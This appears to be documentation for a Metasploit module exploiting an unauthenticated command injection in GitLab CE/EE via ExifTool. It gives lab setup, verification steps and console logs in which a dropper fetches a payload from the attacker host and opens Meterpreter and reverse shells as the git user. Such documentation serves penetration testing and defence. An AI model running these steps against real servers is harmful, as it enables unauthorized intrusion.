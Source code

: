 ## Vulnerable Application

### Description

This module exploits an unauthenticated file upload and command injection vulnerability in GitLab Community Edition (CE) and
Enterprise Edition (EE). The patched versions are 13.10.3, 13.9.6, and 13.8.8.

Exploitation will result in command execution as the git user.

### Installation

#### GitLab 13.10.2 on Ubuntu 20.04.2 x64

* Download [GitLab 13.10.2](https://packages.gitlab.com/gitlab/gitlab-ce/packages/ubuntu/focal/gitlab-ce_13.10.2-ce.0_amd64.deb)
* Install openssh-server (`sudo apt install openssh-server`)
* Install GitLab (`sudo dpkg -i gitlab-ce_13.10.2-ce.0_amd64.db`)
* Modify the `external_url` in `/etc/gitlab/gitlab.rb` to something like `external_url http://localhost`
* Run `sudo gitlab-ctl reconfigure`
* Done!

## Verification Steps

* Follow the above instructions to install GitLab 13.10.2
* Do: `use exploit/multi/http/gitlab_exif_rce`
* Do: `set RHOST <ip>`
* Do: `check`
* Verify the remote target is flagged as vulnerable
* Do: `set LHOST <ip>`
* Do: `set LPORT <port>`
* Do: `exploit`
* You should get a Meterpreter session.

## Targets

### 0

This targets GitLab with the `reverse_openssl` payload and returns a reverse shell.

### 1

This downloads code to GitLab returns a meterpreter session. By default, the module uses `wget`, but
can also be used with `lwprequest` and `curl.`

## Options

### TARGETURI

Specifies GitLab's base URI. Although an unpopular configuration, GitLab does support use
of a [relative URL](https://docs.gitlab.com/omnibus/settings/configuration.html#configuring-a-relative-url-for-gitlab).

## Scenarios

### GitLab 13.10.1 on Ubuntu 20.04.2 x64. Get Meterpreter session.

```
msf6 > use exploit/multi/http/gitlab_exif_rce
[*] Using configured payload linux/x86/meterpreter_reverse_tcp
msf6 exploit(multi/http/gitlab_exif_rce) > set RHOST 10.0.0.7
RHOST => 10.0.0.7
msf6 exploit(multi/http/gitlab_exif_rce) > check

[*] Uploading c6hn3KFIMqv.jpg to /D3iMLq
[+] 10.0.0.7:80 - The target is vulnerable. The error response indicates ExifTool was executed.
msf6 exploit(multi/http/gitlab_exif_rce) > options

Module options (exploit/multi/http/gitlab_exif_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.0.0.7         yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x86/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf6 exploit(multi/http/gitlab_exif_rce) > set LHOST 10.0.0.9
LHOST => 10.0.0.9
msf6 exploit(multi/http/gitlab_exif_rce) > exploit

[*] Started reverse TCP handler on 10.0.0.9:4444 
[*] Executing Linux Dropper for linux/x86/meterpreter_reverse_tcp
[*] Using URL: http://0.0.0.0:8080/agqzWrd49OBxPkC
[*] Local IP: http://10.0.0.9:8080/agqzWrd49OBxPkC
[*] Uploading S6uji8z.jpg to /6eKwYEoQ2O
[*] Client 10.0.0.7 (Wget/1.17.1 (linux-gnu)) requested /agqzWrd49OBxPkC
[*] Sending payload to 10.0.0.7 (Wget/1.17.1 (linux-gnu))
[*] Meterpreter session 1 opened (10.0.0.9:4444 -> 10.0.0.7:53056 ) at 2021-11-02 01:27:22 -0700
[+] Exploit successfully executed.
[*] Command Stager progress - 100.00% done (116/116 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: git
meterpreter > shell
Process 6936 created.
Channel 1 created.
whoami
git
id
uid=998(git) gid=998(git) groups=998(git)
pwd
/var/opt/gitlab/gitlab-workhorse
```

Similar to above, but using `curl` instead:

```
msf6 exploit(multi/http/gitlab_exif_rce) > run

[*] Started reverse TCP handler on 10.0.0.9:4444 
[*] Executing Linux Dropper for linux/x86/meterpreter_reverse_tcp
[*] Using URL: http://0.0.0.0:8080/Iy9pWshQ8gakRvP
[*] Local IP: http://10.0.0.9:8080/Iy9pWshQ8gakRvP
[*] Uploading MMNlv9v.jpg to /hZXc5H1
[*] Client 10.0.0.7 (curl/7.74.0-DEV) requested /Iy9pWshQ8gakRvP
[*] Sending payload to 10.0.0.7 (curl/7.74.0-DEV)
[*] Meterpreter session 6 opened (10.0.0.9:4444 -> 10.0.0.7:50850 ) at 2021-11-02 11:51:42 -0700
[+] Exploit successfully executed.
[*] Command Stager progress - 100.00% done (116/116 bytes)
[*] Server stopped.

meterpreter > 
```

### GitLab 13.10.2 on Ubuntu 20.04.2 x64. Get reverse shell.

```
msf6 > use exploit/multi/http/gitlab_exif_rce
[*] Using configured payload linux/x86/meterpreter_reverse_tcp
msf6 exploit(multi/http/gitlab_exif_rce) > set RHOST 10.0.0.3
RHOST => 10.0.0.3
msf6 exploit(multi/http/gitlab_exif_rce) > check

[*] Uploading bSjUnQsE.jpg to /Da8eKs2
[+] 10.0.0.3:80 - The target is vulnerable. The error response indicates ExifTool was executed.
msf6 exploit(multi/http/gitlab_exif_rce) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Unix Command
   1   Linux Dropper


msf6 exploit(multi/http/gitlab_exif_rce) > set target 0
target => 0
msf6 exploit(multi/http/gitlab_exif_rce) > set LHOST 10.0.0.9
LHOST => 10.0.0.9
msf6 exploit(multi/http/gitlab_exif_rce) > exploit

[*] Started reverse double SSL handler on 10.0.0.9:4444 
[*] Executing Unix Command for cmd/unix/reverse_openssl
[*] Uploading 1SynV6Z.jpg to /9v3LPsOOBuH
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo tZscWcue53S3jgeY;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "tZscWcue53S3jgeY\n"
[*] Matching...
[*] B is input...
[+] Exploit successfully executed.
[*] Command shell session 1 opened (10.0.0.9:4444 -> 10.0.0.3:44304 ) at 2021-11-02 01:35:07 -0700

whoami
git
id
uid=998(git) gid=998(git) groups=998(git)
pwd
/var/opt/gitlab/gitlab-workhorse
```

### GitLab 14.4.1 on Ubuntu 20.04.2 x64. Unable to exploit.

```
msf6 > use exploit/multi/http/gitlab_exif_rce
[*] Using configured payload linux/x86/meterpreter_reverse_tcp
msf6 exploit(multi/http/gitlab_exif_rce) > set RHOST 10.0.0.6
RHOST => 10.0.0.6
msf6 exploit(multi/http/gitlab_exif_rce) > check

[*] Uploading IG6XQAk1ITK.jpg to /jL4v4tk
[*] 10.0.0.6:80 - The target is not exploitable. The error response indicates ExifTool was not run.
msf6 exploit(multi/http/gitlab_exif_rce) > set LHOST 10.0.0.9
LHOST => 10.0.0.9
msf6 exploit(multi/http/gitlab_exif_rce) > exploit

[*] Started reverse TCP handler on 10.0.0.9:4444 
[*] Executing Linux Dropper for linux/x86/meterpreter_reverse_tcp
[*] Using URL: http://0.0.0.0:8080/4yaJ5UgZuicSKho
[*] Local IP: http://10.0.0.9:8080/4yaJ5UgZuicSKho
[*] Uploading 0HOfSW4x.jpg to /U9lBc32XRIS
[-] Exploit aborted due to failure: unexpected-reply: Target replied with an unexpected response
[*] Server stopped.
[*] Exploit completed, but no session was created.
```
